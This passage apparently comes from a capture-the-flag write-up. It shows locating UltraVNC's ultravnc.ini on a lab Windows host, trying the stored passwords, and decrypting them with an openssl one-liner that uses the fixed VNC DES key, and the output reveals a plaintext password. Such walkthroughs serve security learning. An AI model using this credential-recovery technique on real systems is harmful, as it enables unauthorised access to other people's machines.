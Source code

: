 ```
 Directory of C:\Users\Administrator\Desktop

11/14/2020  03:32 PM    <DIR>          .
11/14/2020  03:32 PM    <DIR>          ..
11/14/2020  03:31 PM                54 admin_flag.txt
```

We still have 3 objectives left, let's see if we can find those.

Looking in the **UltraVNC directory** shows us a file called **ultravnc.ini**:

```
 Directory of C:\Program Files\uvnc bvba\UltraVNC

11/14/2020  04:31 PM             1,358 ultravnc.ini
```

Viewing that shows us 2 passwords at the top of the file:

```
[ultravnc]
passwd=B3A8F2D8BEA2F1FA70
passwd2=00B2CDC0BADCAF1397
```

I try and use **vncviewer** to connect over using both of these passwords but they don't work:

`vncviewer 10.10.44.72:5900`

```bash
Connected to RFB server, using protocol version 3.8
Performing standard VNC authentication
Password: 
authentication rejected
```

I search online and these passwords end up being encrypted. [**This GitHub repository**](https://github.com/frizb/PasswordDecrypts) has several different ways that you can decrypt VNC passwords. I use the Linux command line version like this for the first password:

`echo -n B3A8F2D8BEA2F1FA70 | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv`

It gives an error message, but it also gives us the password:

```bash
bad decrypt
139908098565504:error:0606508A:digital envelope routines:EVP_DecryptFinal_ex:data not multiple of block length:../crypto/evp/evp_enc.c:592:
00000000  35 75 70 70 30 72 74 39                           |<REDACTED>|
```

Decrypting the second one gives us:

```bash
bad decrypt
139912093316480:error:0606508A:digital envelope routines:EVP_DecryptFinal_ex:data not multiple of block length:../crypto/evp/evp_enc.c:592:
00000000  cf c4 de 56 c4 2f 87 9c                           |...V./..|
```
